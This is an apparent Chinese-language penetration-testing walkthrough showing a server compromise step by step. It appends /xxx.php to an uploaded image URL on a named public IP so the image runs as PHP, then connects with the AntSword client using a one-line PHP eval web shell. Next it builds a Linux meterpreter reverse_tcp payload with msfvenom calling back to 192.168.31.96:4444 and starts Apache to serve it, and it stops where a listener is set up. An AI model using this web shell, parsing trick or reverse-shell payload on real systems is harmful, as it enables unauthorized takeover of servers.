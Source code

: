 # 解析图片为可执行的木马文件

在图片后面加上 **/xxx.php** 即可

```
http://150.158.137.47/uploadfiles/4f6fa2948e662ff1a62f42a969bc7d74.jpg/xxx.php
```

![image-20220111115856750](https://gitee.com/xxb667/img/raw/master/img/image-20220111115856750.png)

# 用蚁剑进行连接

URL地址为

```
http://150.158.137.47/uploadfiles/4f6fa2948e662ff1a62f42a969bc7d74.jpg/xxx.php
```

密码为我们写入的一句话木马中的密码

```
<?php @eval($_POST["xxb"]);?>
```

![image-20220111120012765](https://gitee.com/xxb667/img/raw/master/img/image-20220111120012765.png)

## 进入界面

![image-20220111120136668](https://gitee.com/xxb667/img/raw/master/img/image-20220111120136668.png)

# 用kali生成木马

```
192.168.31.96
```

## 生成木马文件

```
 msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.31.96 LPORT=4444 -b "\x00" -f elf -o /home/xxb1/11
```

![image-20220111122214353](https://gitee.com/xxb667/img/raw/master/img/image-20220111122214353.png)

## 开启kali的apache服务

```
systemctl start apache2
```

## kali设置监听
